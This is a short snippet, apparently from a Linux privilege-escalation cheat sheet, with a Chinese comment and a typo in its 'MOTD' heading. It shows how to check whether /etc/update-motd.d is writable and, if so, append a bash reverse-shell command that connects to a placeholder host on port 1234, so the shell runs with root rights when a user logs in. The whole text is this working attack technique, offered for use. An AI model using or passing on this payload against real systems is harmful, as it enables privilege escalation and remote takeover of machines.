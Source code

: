 MOTD: message of the date

```bash
ls -l /etc/update-motd.d
# 若有写入权限，则注入提权代码
echo 'bash -c "bash -i >& /dev/tcp/<host>/1234 0>&1"' >> /etc/update-motd.d/<onefile>
```